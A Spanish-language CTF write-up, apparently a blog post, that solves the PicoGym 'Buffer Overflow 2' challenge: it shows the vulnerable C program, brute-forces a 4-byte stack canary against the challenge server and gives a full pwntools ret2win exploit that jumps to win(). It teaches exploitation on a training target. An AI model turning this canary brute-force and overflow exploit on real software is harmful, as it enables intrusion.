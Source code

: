 ```yaml
---
layout: post
title: Buffer Overflow 2 PicoGym
comments: true
categories: [Pwn, Writeups, PicoCTF]
---
```


En este post estaremos resolviendo un reto del [PicoGym](https://play.picoctf.org/practice/challenge/490?category=6&page=1&retired=0). Se trata de un reto tipo *ret2win* en el que tendremos que saltarnos una protección relacionada con un *stack canary* ó *stack cookie*.

<br>
![Image]({{ site.baseurl }}/images/posts/picoGym/pico_logo.png){:width="200px"}

# Reconocimiento

   > Do you think you can bypass the protection and get the flag?

Como nos indica el enunciado, el programa implementa una especie de canary de 4 bytes.

```c
#define BUFSIZE 64
#define FLAGSIZE 64
#define CANARY_SIZE 4

void win() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    fflush(stdout);
    exit(0);
  }

  fgets(buf,FLAGSIZE,f); // size bound read
  puts(buf);
  fflush(stdout);
}

char global_canary[CANARY_SIZE];
void read_canary() {
  FILE *f = fopen("canary.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'canary.txt' in this directory with your",
                    "own debugging canary.\n");
    fflush(stdout);
    exit(0);
  }

  fread(global_canary,sizeof(char),CANARY_SIZE,f);
  fclose(f);
}

void vuln(){
   char canary[CANARY_SIZE];
   char buf[BUFSIZE];
   char length[BUFSIZE];
   int count;
   int x = 0;
   memcpy(canary,global_canary,CANARY_SIZE);
   printf("How Many Bytes will You Write Into the Buffer?\n> ");
   while (x<BUFSIZE) {
      read(0,length+x,1);
      if (length[x]=='\n') break;
      x++;
   }
   sscanf(length,"%d",&count);

   printf("Input> ");
   read(0,buf,count);

   if (memcmp(canary,global_canary,CANARY_SIZE)) {
      printf("***** Stack Smashing Detected ***** : Canary Value Corrupt!\n"); // crash immediately
      fflush(stdout);
      exit(0);
   }
   printf("Ok... Now Where's the Flag?\n");
   fflush(stdout);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  read_canary();
  vuln();
  return 0;
}
```

Las protecciones de tipo canary nos impiden sobreescribir directamente la dirección de retorno, ya que detectan si han sido sobreescritos, lanzando una excepción. Para saltarlas hay que conocer su valor y tener en cuenta no sobreescribirlo. Un payload tendrá la siguiente estructura:

```
[     padding         ]
[     canary          ]
[     padding         ]
[  dirección a saltar ]
```

## Explotación

Dado que el canary sólo tiene 4 bytes podemos tratar de sacarlo mediante fuerza bruta. Para ello pasamos 64 bytes de padding y vamos probando combinaciones para los siguientes 4B. Con un script en python se haría de la siguiente forma:

```python
for i in range(4):
	for j in range(0x100):
		p = start()

		p.sendlineafter(b'> ',str(0x60))

		payload = b'a'*0x40 
		payload += b''.join([p8(b) for b in canary]) + p8(j)

		p.sendafter(b'Input> ',payload)

		test = p.recv()

		if b'***** Stack Smashing Detected ***** ' not in test:
			log.info('byte found: ' + hex(j)[2:])
			canary.append(j)
			break
```

```
[+] Opening connection to saturn.picoctf.net on port 63775: Done
[+] Opening connection to saturn.picoctf.net on port 63775: Done
[+] Opening connection to saturn.picoctf.net on port 63775: Done
[*] byte found: 64
[*] canary: 0x64526942
```

Una vez tenemos el valor  del canary podemos saltarnos la protección y proceder como si de un *ret2win* normal se tratara, calculamos el offset así:

```bash
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA<canary>AAAABBBBCCCCDDDDEEEE
[...]
EIP: 0x45454545 ('EEEE')
```

Y ya podemos añadir al script la parte que nos permite saltar a `win`:

```python
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwn import *

exe = context.binary = ELF(args.EXE or 'vuln')

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote("saturn.picoctf.net", 64993)
    else:
        return process([exe.path] + argv, *a, **kw)

canary = []

for i in range(4):
	for j in range(0x100):
		p = start()

		p.sendlineafter(b'> ',str(0x60))

		payload = b'a'*0x40 
		payload += b''.join([p8(b) for b in canary]) + p8(j)

		p.sendafter(b'Input> ',payload)

		test = p.recv()

		if b'***** Stack Smashing Detected ***** ' not in test:
			log.info('byte found: ' + hex(j)[2:])
			canary.append(j)
			break

canary = u32(b''.join([p8(b) for b in canary]))
log.info('canary: ' + hex(canary))

log.info(f"Canary found {canary}")

io = start()

io.sendlineafter(b'> ',b'100')

io.recvuntil(b'Input>')

win = exe.symbols['win']

payload = 64*b'A'
payload += p32(canary)
payload += 16*b'B'
payload += p32(win)

io.sendline(payload)

io.interactive()
```

Y recibir la flag:

```bash
 Ok... Now Where's the Flag?
picoCTF{<REDACTED>}
```

<br>
